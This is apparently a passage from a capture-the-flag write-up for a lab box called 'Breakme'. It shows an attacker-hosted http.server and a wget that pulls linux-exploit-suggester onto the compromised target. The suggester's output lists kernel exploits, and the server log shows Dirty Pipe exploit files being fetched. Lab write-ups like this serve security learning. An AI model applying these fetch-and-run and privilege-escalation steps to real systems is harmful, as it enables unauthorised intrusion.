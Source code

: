 ```bash
root@ip-10-10-146-120:~# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.232.120 - - [21/Sep/2024 15:13:45] code 404, message File not found
10.10.232.120 - - [21/Sep/2024 15:13:45] "GET /linux-exploit-suggester.sh HTTP/1.1" 404 -
10.10.232.120 - - [21/Sep/2024 15:15:16] code 404, message File not found
10.10.232.120 - - [21/Sep/2024 15:15:16] "GET /linux-exploit-suggester.sh HTTP/1.1" 404 -
10.10.232.120 - - [21/Sep/2024 15:16:13] "GET /les.sh HTTP/1.1" 200 -
10.10.232.120 - - [21/Sep/2024 15:27:34] "GET /exploit-2.c HTTP/1.1" 200 -
10.10.232.120 - - [21/Sep/2024 15:29:08] "GET /dirtypipe HTTP/1.1" 200 -

```


Then i ran linux suggester to figure out what CVEs to use: 

```bash
www-data@Breakme:/home/john$ wget http://10.10.146.120:8000/les.sh -O /tmp/les.sh
<get http://10.10.146.120:8000/les.sh -O /tmp/les.sh
--2024-09-21 10:16:14--  http://10.10.146.120:8000/les.sh
Connecting to 10.10.146.120:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 90858 (89K) [text/x-sh]
Saving to: \u2018/tmp/les.sh\u2019

/tmp/les.sh         100%[===================>]  88.73K  --.-KB/s    in 0.001s  

2024-09-21 10:16:14 (172 MB/s) - \u2018/tmp/les.sh\u2019 saved [90858/90858]

www-data@Breakme:/home/john$ chmod +x /tmp/les.sh
chmod +x /tmp/les.sh
```

Found out that dirtypipe is possible: 

```bash
www-data@Breakme:/home/john$ /tmp/les.sh
/tmp/les.sh

Available information:

Kernel version: 5.10.0
Architecture: x86_64
Distribution: debian
Distribution version: 11
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS

Searching among:

81 kernel space exploits
49 user space exploits

Possible Exploits:

cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
[+] [CVE-2021-3490] eBPF ALU32 bounds tracking for bitwise ops

   Details: https://www.graplsecurity.com/post/kernel-pwning-with-ebpf-a-love-story
   Exposure: probable
   Tags: ubuntu=20.04{kernel:5.8.0-(25|26|27|28|29|30|31|32|33|34|35|36|37|38|39|40|41|42|43|44|45|46|47|48|49|50|51|52)-*},ubuntu=21.04{kernel:5.11.0-16-*}
   Download URL: https://codeload.github.com/chompie1337/Linux_LPE_eBPF_CVE-2021-3490/zip/main
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

```